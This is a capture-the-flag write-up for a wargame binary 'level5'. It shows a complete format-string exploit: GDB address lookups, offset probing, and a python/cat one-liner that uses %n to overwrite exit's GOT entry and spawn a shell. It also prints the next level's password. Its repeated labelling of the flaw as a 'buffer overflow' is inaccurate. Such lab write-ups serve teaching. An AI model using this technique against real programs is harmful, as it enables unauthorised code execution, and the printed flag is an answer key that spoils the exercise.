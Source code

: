 # `level5` Exploit

## Description

This guide explains how to exploit a buffer overflow vulnerability in the `level5` program to trigger the execution of a function that launches a shell.

## Prerequisites

- Access to the `level5` executable.
- Tools: GDB, Python.

## Exploitation Steps

### 1. Decompile the Binary

Use Ghidra or a similar tool to decompile the `level5` binary and understand its functionality.

### 2. Check Available Functions

- The `n` function contains a vulnerable `printf` call because it doesn't use format specifiers.
- An `exit(1)` call is made just after the `printf` call.
- There is an `o` function in the program but never called, with the following code:

```c
void o(void)
{
  system("/bin/sh");
  _exit(1);
}
```

This function launches a shell, which is our key to access the flag.

### Strategy

Our strategy is to overwrite the call to the `exit` function with a call to the `o` function to get a shell with the privileges needed to read `/home/user/level6/.pass`.

### 3. Find Function Addresses

Use GDB to find the addresses of the functions:

```bash
gdb level5
info function
0x080484a4  o
0x080484c2  n
0x08048504  main
```

- The address of the `o` function is `0x080484a4`, which is `\xa4\x84\x04\x08` in little-endian format.

To find the address of `exit`, use the following GDB command:

```bash
disas exit
```

You should see something like:

```gdb
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>: jmp *0x8049838
   0x080483d6 <+6>: push $0x28
   0x080483db <+11>: jmp 0x8048370
End of assembler dump.
```

- The address of `exit` is `0x08049838`, which is `\x38\x98\x04\x08` in little-endian format. We will overwrite this address with the address of the `o` function.

### 4. Exploit the Buffer Overflow Vulnerability

#### Step 1: Determine the Offset

Determine at which position `printf` starts to write the given string. Use this input string:

```bash
./level5
AAAA%08x.%08x.%08x.%08x.%08x.%08x
```

The output will be similar to:

```
AAAA00000200.f7ee5580.00000000.41414141.78383025.3830252e
```

- The value `41414141` (corresponding to `AAAA` in ASCII) appears. We find that the `printf` argument position is at the 4th position.

#### Step 2: Create the Exploit

The address of the `o` function in decimal is `134513828`. We need to subtract the 4 bytes of the destination address written at the beginning of the string: `134513828 - 4 = 134513824`.

The exploit string will be formatted like this: `<destination address> + %<decimal value>d + %4$n`

```bash
python -c 'print("\x38\x98\x04\x08%134513824d%4$n")'
```

#### Step 3: Execute the Exploit

Execute the exploit while keeping `stdin` open:

```bash
(python -c 'print("\x38\x98\x04\x08%134513824d%4$n")' ; cat) | ./level5
```

Once the shell is open, execute the commands:

```bash
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

### Explanation

1. **Buffer Overflow Vulnerability**: `printf` without format specifiers allows unintended memory reads and writes.
2. **%n Specifier**: Used to write the number of characters printed so far to an address specified on the stack.
3. **Offset Calculation**: Determines where the format string parameters are on the stack to correctly position the address of `o`.
4. **Exploit String**: Crafted to write the address of `o` in place of the address of `exit`.

## Conclusion

By following these steps, you have successfully exploited a buffer overflow vulnerability to gain shell access on `level5`. This technique uses knowledge of format string exploits and stack manipulation.

---

This README guides you through all the necessary steps to reproduce and understand the exploit.